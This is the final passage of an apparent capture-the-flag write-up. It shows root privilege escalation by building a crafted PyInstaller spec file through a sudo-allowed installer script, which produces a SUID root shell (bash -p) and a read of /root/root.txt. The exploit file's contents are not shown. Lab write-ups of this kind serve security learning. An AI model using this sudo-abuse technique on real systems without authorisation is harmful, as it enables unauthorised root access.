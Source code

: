 Now we are going to copy into `/home/tkeller/` the temporary file that has been created: `/tmp/qreader.spec`. And we execute the following command: `sudo /usr/local/sbin/build-installer.sh build test.spec` being the file `test.spec`, the *exploit*.

Output:

```
133 INFO: PyInstaller: 5.6.2
133 INFO: Python: 3.10.6
136 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
141 INFO: UPX is not available.
```

If we execute these commands we can already have the **flag root** .

```
bin/bash -p
bash-5.1# id
uid=1001(tkeller) gid=1001(tkeller) euid=0(root) groups=1001(tkeller),1002(shared)
bash-5.1# cat /root/root.txt
99009****************************
```

![root](images/root.png)

Thank you very much if you have come here.